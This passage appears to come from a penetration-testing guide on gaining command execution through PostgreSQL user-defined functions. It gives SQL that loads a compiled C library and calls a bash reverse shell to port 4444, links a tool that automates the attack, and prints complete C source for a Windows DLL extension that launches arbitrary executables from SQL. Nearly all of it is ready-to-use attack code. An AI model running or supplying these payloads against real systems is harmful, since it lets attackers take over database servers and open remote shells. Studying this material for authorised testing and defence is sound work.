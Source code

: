 Then upload the compiled library and execute commands with:

```bash
CREATE FUNCTION sys(cstring) RETURNS int AS '/tmp/pg_exec.so', 'pg_exec' LANGUAGE C STRICT;
SELECT sys('bash -c "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"');
#Notice the double single quotes are needed to scape the qoutes
```

You can find this **library precompiled** to several different PostgreSQL versions and even can **automate this process** (if you have PostgreSQL access) with:

{{#ref}}
https://github.com/Dionach/pgexec
{{#endref}}

### RCE in Windows

The following DLL takes as input the **name of the binary** and the **number** of **times** you want to execute it and executes it:

```c
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum pgsql_exec(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(pgsql_exec);

/* this function launches the executable passed in as the first parameter
in a FOR loop bound by the second parameter that is also passed*/
Datum
pgsql_exec(PG_FUNCTION_ARGS)
{
	/* convert text pointer to C string */
#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

	/* retrieve the second argument that is passed to the function (an integer)
	that will serve as our counter limit*/

	int instances = PG_GETARG_INT32(1);

	for (int c = 0; c < instances; c++) {
		/*launch the process passed in the first parameter*/
		ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
	}
	PG_RETURN_VOID();
}
```
